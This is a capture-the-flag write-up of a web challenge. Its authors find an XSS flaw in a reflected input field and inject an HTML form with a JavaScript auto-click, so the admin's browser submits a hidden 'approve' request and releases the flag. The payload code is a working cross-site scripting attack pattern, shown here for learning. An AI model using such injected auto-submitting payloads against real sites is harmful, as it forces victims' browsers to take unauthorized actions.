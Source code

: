 ## CTF - Desafio 2

## Recon

In this challenge we are given a website with an input field. If we write in there and submit it, the input gets reflected. This automatically gave us some ideas to test. 

The first one was SSTI (Server Side Template Injection), but by using [Wappalyzer](https://www.wappalyzer.com/), we found that the tech stack used was not vulnerable to this.

The second one was XSS (Cross-Site Scripting). To test this we submitted the payload `<script>alert("H4X0R")</script>`, hoping that there were no filters difficulting our way.

In fact this was the case:

![Initial XSS Payload](images/extra-challenges/apply-for-flag-2/xss_initial_payload.png)

We also noticed that the server seemed to be re-rendering from time to time, since even if we checked the alert it would appear again.

Furthermore, we noticed in the text `The admin will use this page to check your request.`, which had an hyperlink to `http://ctf-fsi.fe.up.pt:5005/request/<request_id>`.

When we went to this page, we saw a weird disabled button with the text `Give the flag`:

![Give The Flag Button](images/extra-challenges/apply-for-flag-2/give_the_flag_page.png)

When we inspected the html of this page, we notied that this button would essentially redirect us to a `/approve` endpoint if clicked:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```


## Exploitation

So, knowing all this, after some time of trial and error, we tried to develop a payload that would go to the wanted resource and we injected a javascript snippet to click the button.

Note: We did already know the `<request_id>` from the beginning, since it was given in plaintext in the homepage.


```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">          
<div class="submit">                  
  <input type="submit" id="giveflag" value="Give the flag">   
</div>  
</form>    

<script type="text/javascript">         
 document.querySelector('#giveflag').click();  
</script>
```

Initially this didn't work as we got an `access denied`. So, we spent a lot of time trying to refactor the script without success.

Only when we tried to disable the javascript in order to turn off all the frontend (superficial) protections, that we finally had success and got the flag.